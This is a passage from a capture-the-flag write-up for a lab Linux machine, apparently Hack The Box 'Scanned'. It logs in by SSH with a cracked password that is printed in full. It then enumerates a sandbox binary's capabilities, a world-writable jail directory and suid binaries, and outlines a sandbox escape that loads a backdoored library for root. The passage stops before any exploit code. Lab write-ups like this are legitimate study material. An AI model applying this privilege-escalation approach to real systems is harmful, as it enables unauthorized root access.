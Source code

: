 ```
Hardware.Mon.#1..: Temp: 41c Fan: 33% Util:  0% Core:1733MHz Mem:4006MHz Bus:16

Started: Tue Feb  1 00:53:52 2022
Stopped: Tue Feb  1 00:53:59 2022
```

Testing the credentials `clarence:onedayyoufeellikecrying` with ssh we are able to log into the machine and grab the user flag.

```
$ ssh clarence@10.129.159.163
clarence@10.129.159.163's password:
Linux scanned 5.10.0-11-amd64 #1 SMP Debian 5.10.92-1 (2022-01-18) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Mon Jan 31 23:12:39 2022 from 10.10.14.73
clarence@scanned:~$ wc -c user.txt
33 user.txt
```
# Root

We noticed earlier that `sandbox` gets the `cap_setuid` set when compiling. This is also the case on this system. Furthermore there seemed to be interesting file permission on the copied libraries and on the whole jail directory itself.

```
clarence@scanned:~$ /usr/sbin/getcap /var/www/malscanner/sandbox/sandbox
/var/www/malscanner/sandbox/sandbox cap_setgid,cap_setuid,cap_setpcap,cap_sys_chroot,cap_sys_admin=eip
```

Checking on the system the directory is world readable. This means we can copy anything inside while we run a binary with `sandbox`. Since we are also able to access the rest of the filesystem through `/proc/1/fd/3` we can run another binary from inside the sandbox. These two things mean we are able to make a binary on the host run with a backdoored library version.

```
clarence@scanned:~$ ls -al /var/www/malscanner/sandbox/jails/
total 8
drwxrwxrwx 2 root root 4096 Jan 13 17:27 .
drwxr-xr-x 3 root root 4096 Jan 13 17:27 ..
```

Doing this with a suid binary we should be able to achieve code execution as root so the first step is to look at the suid binaries available on the system.

```
clarence@scanned:~$ find / -perm -4000 2>/dev/null
/usr/lib/openssh/ssh-keysign
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/bin/chsh
/usr/bin/su
/usr/bin/fusermount
/usr/bin/passwd
/usr/bin/sudo
/usr/bin/mount
/usr/bin/newgrp
/usr/bin/gpasswd
/usr/bin/chfn
/usr/bin/umount
```
